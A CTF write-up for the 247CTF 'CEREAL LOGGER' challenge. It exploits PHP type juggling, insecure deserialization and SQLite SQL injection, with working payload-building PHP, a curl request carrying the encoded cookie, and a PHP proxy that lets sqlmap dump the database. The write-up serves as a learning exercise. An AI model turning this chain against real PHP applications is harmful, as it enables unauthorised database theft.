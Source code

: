 ```yaml
---
title: "Chaining SQLmap with a custom php proxy server | 247CTF"
date: 2024-06-16
categories: [Web Security, CEREAL LOGGER]
tags: [Web, CTF] 
---
```


Hi, in this writeup I will solve the new hard challenge `CEREAL LOGGER`, from [247ctf](https://247ctf.com/). I will also explain how I created a simple proxy server between `SQLmap` and the challenge server that can manipulate SQLmap requests.

## Challenge source code analysis
![IMG1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/24a5b14d-3451-4ac3-a4e2-5855c6ce6cfb)

1) class `insert_log` is defined and has a property `new_data` has constant value "Valid access logged!"
and has `__destruct()` methode that create a new SQLite3 database connection using a database file located at `/tmp/log.db` and finally, an SQL query is executed to insert a log message `$this->new_data` into the `log` table of the database.

2) Main Script Logic: 
  - The code check if the cookie named `247` is set for incoming HTTP requests.
  - Split the cookie value at the dot with `explode(".", $_COOKIE["247"])` and Check if the second part of the split value concatenated with a random number between 0 and 247247247 equals the string "0".
  - If the condition is met, it decodes the first part of the cookie value from base64, unserializes it, and writes the result to `/dev/null` (which essentially discards the output).

## Spotting the bugs

- The condition `explode(".", $_COOKIE["247"])[1].rand(0, 247247247) == "0"` is vulnerable to [Type juggling](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09) because it relies on PHP's type coercion, PHP uses loose comparison (==), which means it will attempt to coerce the types to make the comparison. For example, when comparing a string to a number, PHP will convert the string to a number.
- In the `__destruct()` method vulnerable to SQLi, the SQL query is constructed by directly concatenating the `new_data` property into the SQL statement, but what is `__destruct()` methode ? by asking google: 
![IMG2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3fff93f5-7be6-48c0-ad49-09670eac2244)

- Simple Testing: 
![IMG3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/ddbe1977-a921-4bfd-8c11-d2325a71a75e)

- At this point, we can identify another vulnerability: `insecure deserialization` because the script decode tha first part of the cookie before dot and then unserialize it directly using `unserialize()` function.

## Chaining of bugs 

1) Exoloiting type juggling vulnerability to bypass the if condition.

2) Build a class with same name and properties (Attributes or Variables). 

3) Injecting SQL payload in `new_data` attribute before serializing object and then encode it to base64 encoded data.

## Manuel Exploiting

We can exploit the [Type Juggling](https://www.php.net/manual/en/language.types.type-juggling.php) vulnerability by injecting data before a dot and then embedding `0e` after the dot. This allows us to bypass an if condition like `blablabla.0e`, For example, `"0e1234" == "0"` returns true because `0e1234` means `0 * 10^1234` which is zero, so whatever the random number come after e then the condition always returns true.  

In PHP, `0e1234` represents a number in scientific notation, where `0` is the coefficient and `e1234` indicates the exponent. However, because the coefficient is 0, the entire value is simply 0, regardless of the exponent, In scientific notation, the format is generally `n x 10^m`, where n is the coefficient and m is the exponent. In PHP, `0e1234` translates to `0 * 10^1234`, which is still 0.

![IMG4](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/89f5c1eb-c699-4b4c-9b36-fdd59ad3c464)

Now we can create class and try to inject SQL payload like: `0XMohomiester'); select 1 = randomblob(999999999);--`.

Note: The SQLite `randomblob()` function returns a blob containing pseudo-random bytes. The number of bytes is determined by its argument.


![IMG5](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3132b08b-bd51-4666-bc5e-08125625a523)

```php
<?php

class insert_log
{
  // SQLi payload here 
  public $new_data = "0XMohomiester'); select 1 = randomblob(999999999);--";
}
$obj = new insert_log();
// Serializing object 
$a = serialize($obj);
// Base64 encoding of serialized data and concatenate it with .0e 
$final_payload = base64_encode($a) . ".0e";
echo $final_payload;

```

Let's try it :

```shell
time curl -XGET https://a0351f3d2e04038e.247ctf.com/ -b '247=TzoxMDoiaW5zZXJ0X2xvZyI6MTp7czo4OiJuZXdfZGF0YSI7czo1MjoiMFhNb2hvbWllc3RlcicpOyBzZWxlY3QgMSA9IHJhbmRvbWJsb2IoOTk5OTk5OTk5KTstLSI7fQ==.0e'
```

![IMG6](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/645e72aa-4228-4a34-be67-ec1b684e9ac3)

as you can see that the response takes about 1.7 seconds with 502 status code, because we generate long number of bytes in `randomblob()` function, let's try if we created a only one byte: `randomblob(1)` 


![IMG7](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/3e431425-c0fe-40aa-9d6e-25c16f4a7b44)

yes!, the time is is about 0.5 seconds now lets try to automate this task.



## Automated Exploitation

We can exploit this bug with sqlmap but we have a some problems here, the first is that the payloads must be serialized in objects and then encode it to clearly exploit the web application and extract flag from database.

we can create a simple local web application act as `proxy server` that manage sqlmap requests and edit on any payload to serialize it and then encode it and send the data to the challange server or instance.

![IMG8](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/e755af36-3dac-45ca-975d-3d84a5f8cd2e)


Here is a simple web application using PHP!

```php
<?php

$payload = $_GET['payload'];

class insert_log
{
    public $new_data;
    public function __construct($payload) {
        $this->new_data = $payload;
    }
}

$object = new insert_log($payload);
// serialize object and encode it.
$final_data = base64_encode(serialize($object));

$data = "$final_data" . ".0e";

$targetUrl = "https://a0351f3d2e04038e.247ctf.com/";

// Initialize cURL session
$ch = curl_init($targetUrl);

// Set cURL options
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

// Set the custom cookie
curl_setopt($ch, CURLOPT_COOKIE, "247=$data");

// Execute the cURL session and get the response
$response = curl_exec($ch);

// Close the cURL session
curl_close($ch);

// Output the response
echo $response;

```

we can deploy php server locally using: 
```shell
php -S 0.0.0.0:80
``` 
using sqlmap command: 
```shell
sqlmap -u "http://127.0.0.1:80/?payload=test" -p "payload" --dbms sqlite --technique=T --dump --level 5 --risk 3 --no-cast  --random-agent
```

Yessss! it works, sqlmap extract table names and data inside this tables: 

![IMG9](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/a3edd081-ee97-4f61-98f1-eac0a6ec8206)


![IMG10](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/6e17f82d-80ff-463e-848a-885b6d671b40)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)

